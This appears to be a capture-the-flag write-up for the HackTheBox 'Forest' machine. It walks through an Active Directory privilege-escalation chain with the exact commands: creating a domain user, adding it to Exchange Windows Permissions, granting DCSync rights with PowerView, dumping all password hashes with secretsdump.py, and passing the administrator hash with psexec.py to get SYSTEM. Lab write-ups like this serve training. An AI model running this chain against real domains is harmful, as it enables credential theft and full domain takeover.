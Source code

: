 ![](/images/forest/path.png)

- Account operators grants its members the ability to create an account.
- The account operators group has `GenericAll` permissions on `Exhange Windows Permission Groups`. This gives members full control of the group and therefore allows members to directly modify group membership and add to it.
- The Exchange Windows Permission group has `WriteDacl` permission on the domain `HTB.LOCAL` which allows abuse of`DcSync` and dump all password hashes. 

###### Steps
1. Create a user on the domain. Privilege from `Account Operator`.
2. Add user to `Exchange Windows Permissions`.	1. 
3. Give the user permission `WriteDacl`.
4. Perform DcSync attack and dump hashes.
5. Pass the Hash to get to administrator account.

**Creating account**
```bash
evil-winrm > net user ngaihte Password123 /add /domain
```
**Adding user to Exchange Windows Permissions**
```bash
evil-winrm > net group "Exchange Windows Permissions" /add ngaihte
```
**Import PowerView and give user DCSync Privileges**
```bash
evil-winrm > Import-Module .\PowerView.ps1
evil-winrm > $pass = convertto-securestring 'Password123' -AsPlainText -Force
evil-winrm > $cred = New-Object System.Management.Automation.PSCredential('htb\ngaihte', $pass)
evil-winrm > Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity ngaihte -Rights DCSync 
```
**Use Impacket secretsdump.py to dump hashes**
```bash
> secretsdump.py ngaihte:Password123@10.10.10.161 > dumps.txt
```
**Use Impacket psexec.py to perform pass the hash with administrator account**
```bash
> psexec.py administrator@10.10.10.161 -hashes hash
C:\Windows\system32> whoami
nt authority\system
```
![](/images/forest/pwned.png)